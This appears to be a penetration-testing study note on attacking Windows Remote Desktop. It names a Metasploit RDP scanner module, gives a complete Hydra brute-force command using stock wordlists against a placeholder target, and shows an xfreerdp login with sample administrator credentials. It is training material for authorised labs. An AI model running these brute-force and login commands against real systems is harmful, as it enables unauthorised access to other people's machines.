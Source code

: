 # Exploiting RDP

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.&#x20;
* RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.&#x20;
* RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.&#x20;
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

## Practical Demo

Enumerate the target

In this case RDP was configured to port 3333

Module to identify if rdp is in a certain port:

* <mark style="color:red;">scanner/rdp/rdp\_scanner</mark>

#### Performing brute force on RDP using Hydra

* <mark style="color:yellow;">hydra -L /usr/share/metasploit-framework/data/wordlists/common\_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt rdp://targetIP -s targetPORT</mark>

You can reduce the speed with the flag "<mark style="color:red;">-t</mark>".

After getting the credentials connect with <mark style="color:blue;">xfreerdp</mark>

* <mark style="color:yellow;">xfreerdp /u:administrator /p:qwertyuiop /v:targetIP:targetPORT</mark>













